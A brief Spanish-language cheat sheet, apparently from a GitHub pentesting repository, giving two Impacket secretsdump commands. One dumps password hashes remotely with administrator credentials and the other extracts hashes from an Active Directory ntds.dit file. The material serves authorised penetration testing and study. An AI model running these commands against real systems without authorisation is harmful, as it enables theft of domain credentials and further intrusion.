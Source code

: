 # SecretsDump Cheat Sheet

#### Dump Hashes - cuando tienes un usuario que pertenece al grupo Administrador
```
impacket-secretsdump <DOMAIN>/<USER>:<PASSWORD>@<IP-TARGET>
```

#### Extraer Hashes de archivos ntds.dit
```
impacket-secretsdump.py -ntds <FILE.dit> -system <FILE-SYSTEM> LOCAL
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)